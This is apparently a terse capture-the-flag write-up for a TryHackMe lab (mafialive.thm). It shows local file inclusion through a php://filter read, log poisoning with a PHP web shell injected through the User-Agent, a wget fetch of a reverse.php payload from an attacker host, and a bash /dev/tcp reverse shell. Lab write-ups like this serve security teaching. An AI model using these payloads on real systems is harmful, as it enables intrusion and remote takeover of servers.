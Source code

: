 Domain is mafialive.thm

http://mafialive.thm/robots.txt

robots.txt:
```
Disallow: /test.php
```
# Lfi

Finally, something interesting

So, we need to read the code of test.php, so we put this string in url (php filter): 
```
mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

And we have file test.php

# Poison

Change user-agent: 
<?php system($_GET['cmd']); ?>

view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=ls

Poisoning:

```bash
python -m SimpleHTTPServer 8000
```

Then: view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=wget http://10.4.32.95:8000/reverse.php
&cmd=php%20reverse.php

```bash
bash -i >& /dev/tcp/10.4.32.95/4444 0>&1
```

https://devskynet.netlify.app/post/tryhackme-archangel/